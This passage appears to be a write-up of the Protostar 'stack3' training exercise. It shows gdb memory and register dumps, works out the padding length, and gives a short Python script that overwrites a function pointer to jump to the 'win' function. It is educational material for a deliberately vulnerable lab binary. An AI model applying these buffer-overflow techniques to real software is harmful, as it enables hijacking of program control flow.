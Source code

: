 ``` shell
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      0x41414141
0xbffff710:     0x42424242      0x43434343      0x44444444      0x45454545
0xbffff720:     0x46464646      0x47474747      0x48484848      0x49494949
0xbffff730:     0x4a4a4a4a      0x4b4b4b4b      0x4c4c4c4c      0x4d4d4d4d
0xbffff740:     0x4e4e4e4e      0x4f4f4f4f      0x50505050      0x51515151
eax            0x51515151       1364283729
ecx            0x0      0
edx            0xb7fd9340       -1208118464
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff6f0       0xbffff6f0
ebp            0xbffff758       0xbffff758
esi            0x0      0
edi            0x0      0
eip            0x8048475        0x8048475 <main+61>
eflags         0x200296 [ PF AF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51

Breakpoint 1, 0x08048475 in main (argc=1448498774, argv=0x57575757) at stack3/stack3.c:22
```

The value of **eax** when reaching the breakpoing is `0x51515151`, and **0x51** is the character "Q". So, at this moment, we know how many characters we need for the paddings (from 'A' to 'P').

Since our primary goal is to redirect the program to **win** function, we just need to overflow **eax** with the address of **win** in little-endian format.

The address of **win** is `0x8048424`:

```shell 
(gdb) p win
$1 = {void (void)} 0x8048424 <win>
```

Here is my updated script to solve this level:

```python 
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
win = struct.pack("I", 0x8048424)

print padding + win
```

And we successfully beat this level. ^^

``` shell
user@protostar:~$ python script.py | /opt/protostar/bin/stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
